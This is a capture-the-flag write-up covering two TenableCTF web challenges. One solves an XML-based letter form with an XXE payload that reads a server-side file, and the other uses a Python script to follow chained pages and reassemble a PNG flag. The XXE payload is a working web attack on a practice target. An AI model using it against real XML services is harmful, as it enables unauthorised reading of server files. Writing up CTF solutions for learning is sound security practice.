



>  TenableCTF CTF 1st edition was an event hosted online. 0x90skids recently competed in the competition.

# Categories 

+  [Web](#web)

## Web
### Send A Letter
**Solved By:** Bib<br>
**Points:** 50<br>
**Flag:** flag{xxe_aww_yeah}

##### Challenge
There is a web app at [http://challenges.ctfd.io:30471/](http://challenges.ctfd.io:30471/). Find the vulnerability, exploit it, and recover the flag.

##### Solution

First look at the page here :



Seems like it's a simple email send form. By checking the page source code, I found the following javascript :
```javascript
	var create_letter = function(from, return_addr, name, addr, message) {
		var letter = "<?xml version=\"1.0\" encoding=\"ISO-8859-1\"?>";
		letter += "<letter>";
		letter += "<from>" + from + "</from>";
		letter += "<return_addr>" + return_addr + "</return_addr>";
		letter += "<name>" + name + "</name>";
		letter += "<addr>" + addr + "</addr>";
		letter += "<message>" + message + "</message>";
		letter += "</letter>";
		
		return letter;
	}
	
	var send = function() {
		var your_name = $('#your_name').val();
		var return_addr = $('#return_addr').val();
		var recipient_name = $('#recipient_name').val();
		var recipient_addr = $('#recipient_address').val();
		var message = $('#message').val();
		
		var letter = create_letter(your_name, return_addr, recipient_name, recipient_addr, message);
		
		$.get("send_letter.php?letter="+letter, function(data, status){
			alert("Data: " + data + "\nStatus: " + status);
		});
	}
```
So, `create_letter` generates an XML string that gets sent as a GET request to `send_letter.php` with param `letter`. It then returns data and status in a popup.
When first seeing an XML file being rendered in the back-end, I automatically think of an XXE ([XML External Entity](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)) attack.
<br>
In order for us to exploit this, we need the back-end server to return data in some way. So I started to check which fields of the form I could use to extract data.
The alert popup gave us valuable information :


This tells us that the `name` field gets reflected back in the alert and that the file we (probably) need to read is `/tmp/messages_outbound.txt`. Great!<br>
I started crafting my payload and tested it using Burp. The following payload worked :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///tmp/messages_outbound.txt"> ]><letter><from>0x90skids</from><return_addr>return_addr</return_addr><name>&xxe;</name><addr>addr</addr><message>message</message></letter>
```

The alert returns : `Message to flag{xxe_aww_yeah} appended to /tmp/messages_outbound.txt for pickup. Mailbox flag raised.`<br>

Challenge solved!

`flag{xxe_aww_yeah}`

## Web
### Follow the Rabbit Hole
**Solved By:** Bib<br>
**Points:** 100<br>
**Flag:** flag{automation_is_handy}

##### Challenge
Follow the rabbit hole and get the flag.
[http://167.71.246.232/](http://167.71.246.232/)
Alternate URL: [http://167.71.246.232:8080/rabbit_hole.php](http://167.71.246.232:8080/rabbit_hole.php)

##### Solution

First up, I visited the URL mentionned in the challenge description. It returned this : `[513, '71'] 4O48APmBiNJhZBfTWMzD`<br>
Also, an interesting change to the URL : `http://167.71.246.232:8080/rabbit_hole.php?page=cE4g5bWZtYCuovEgYSO1`<br>
Since the challenge is called "Follow the Rabbit Hole", I've tried "following" the page using the code provided so I used the link : `?page=4O48APmBiNJhZBfTWMzD`<br>
This brings us to another page with the same set of data (an array with a number & what appears to be HEX). So let's automate this process because I don't know how far the rabbit hole goes...<br>
I've played around with different versions of a script to fetch the data but I finally used :
```python
import requests
import csv

url = "http://167.71.246.232:8080/rabbit_hole.php?page="
page = "cE4g5bWZtYCuovEgYSO1"

response = requests.request("GET", f"{url}{page}")
with open('C:\\Users\\Bib\\Downloads\\rabbit_hole.csv', 'w', newline='') as csvfile:
    rabbit_csv = csv.writer(csvfile, delimiter=';', quotechar='|', quoting=csv.QUOTE_MINIMAL)
    while response.text != 'end':
        try:
            print(f"Following the rabbit hole... Page : {page}")
            response = requests.request("GET", f"{url}{page}")
            page_split = response.text.split()
            first_number = page_split[0].replace("[","").replace(",","")
            second_number = page_split[1].split("\'")[1]
            array = [first_number, second_number]
            rabbit_csv.writerow(array)
            page = page_split[2]
        except:
            print("Script end.")
```
So basically, I went all the way down the rabbit hole and fetched all data inside a CSV file. Then, I sorted the data using the first number as an index.
<table>
  <tr>
    <td>
        <figure>
            
            <figcaption>Fig 1. Sample of raw CSV file</figcaption>
        </figure>
    </td>
    <td>
        <figure>
            
            <figcaption>Fig 2. Sample of sorted CSV file</figcaption>
        </figure>
    </td>
  </tr>

</table>


After the data was sorted, I made a huge string with the HEX values and passed that to an HEX to ASCII converter. It gave me garbage data but I was able to see the header `PNG`.<br>
Knowing this, I re-ran the converter to a PNG file :<br>
<br>


Bingo! Challenge solved! Pretty interesting challenge :)

`flag{automation_is_handy}`